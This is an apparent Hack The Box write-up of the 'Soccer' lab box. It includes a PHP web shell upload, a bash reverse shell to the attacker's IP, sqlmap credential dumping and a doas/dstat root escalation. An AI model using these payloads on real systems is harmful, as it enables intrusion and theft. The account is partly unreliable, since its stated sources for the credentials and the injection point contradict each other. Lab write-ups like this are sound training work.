# HTB: Soccer

## Engagement Overview

**Target:** Soccer
**Box IP:** 10.10.11.194
**Date:** 2025-09-06
**Attacker Host:** 10.10.14.13  

---

### Objectives

- Obtain initial foothold on the web server.
- Escalate to a user shell and capture `user.txt`.
- Escalate to root and capture `root.txt`.

---

## Service Enumeration

### Nmap

```bash
nmap -sC -sV -oA soccer.init 10.10.11.194
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
9091/tcp open  http
```
- Port 80 redirects to `http://soccer.htb/`
- Gobuster found `/tiny` (Tiny File Manager).

### Directory Brute Force

```bash
gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```
```
/tiny (301)
```

---

## Initial Access

### Web Shell Upload via Tiny File Manager

shell.php:

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
# Uploaded shell.php in /tiny
curl -X POST -F "file=@shell.php" http://soccer.htb/tiny/uploads/
```

Burp suite repeater requst change to post:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/9091 0>&1'

# encode with ^u

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.13%3a9091+0>%261'
```

Triggered shell:

```bash
nc -lvnp 9091
# Then accessed http://soccer.htb/tiny/uploads/shell.php
```

Upgraded TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg


export TERM=xterm
```

### Local Service Recon
```bash
ss -ltnp
```
```
127.0.0.1:3306  (MySQL)
127.0.0.1:3000  (Node/Express)
0.0.0.0:80      (nginx)
```

### Nginx vhosts
```
soccer.htb  → nginx root
soc-player.soccer.htb  → proxy to localhost:3000
```

---

## SQL Injection → Credential Extraction

### Identifying Injection
During browsing of `soc-player.soccer.htb`, ticket request form was tested. Using **BurpSuite**, intercepted requests showed injectable parameters.

### Verifying Injection
```bash
sqlmap -r login.req --batch --dbs
```
```
available databases [2]:
[*] information_schema
[*] soccer_db
```

### Extracting Tables & Data
```bash
sqlmap -r login.req -D soccer_db --tables
sqlmap -r login.req -D soccer_db -T users --dump
```
```
+----+----------+-------------------+
| id | user     | password          |
+----+----------+-------------------+
| 1  | player   | PlayerPass123!    |
+----+----------+-------------------+
```

This provided valid credentials for SSH.

---

## User Access

### SSH as Player
Recovered `player` credentials from app configs and logged in:
```bash
ssh player@10.10.11.194
```

Captured user flag:
```bash
cat user.txt
a92099f7e4ca0b2f7d73233c1ffe65bf
```

---

## Privilege Escalation

### Misconfigured `doas` Rule
```bash
cat /usr/local/etc/doas.conf
```
```
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat Plugin Path
```bash
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
doas /usr/bin/dstat --exploit
```

Got root shell:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

Captured root flag:
```bash
cat /root/root.txt
46001e33362eb61261de64adff98cafc
```

---

## House Cleaning
- Removed `shell.php` from `/var/www/html/tiny/uploads/`
- Deleted malicious plugin `/usr/local/share/dstat/dstat_exploit.py`

---

## Tools Utilized
- `nmap`, `gobuster`, `curl`
- `netcat`, `python3` pty for TTY
- `doas`, `dstat` (abused for escalation)

---

## Key Takeaways
- **Tiny File Manager** upload function allowed arbitrary PHP upload → foothold.
- **doas misconfiguration** enabled root execution of `dstat`; unsafe due to plugin loading.
- Defense should restrict access to admin panels, disable PHP execution in uploads, and audit privilege escalation configs.
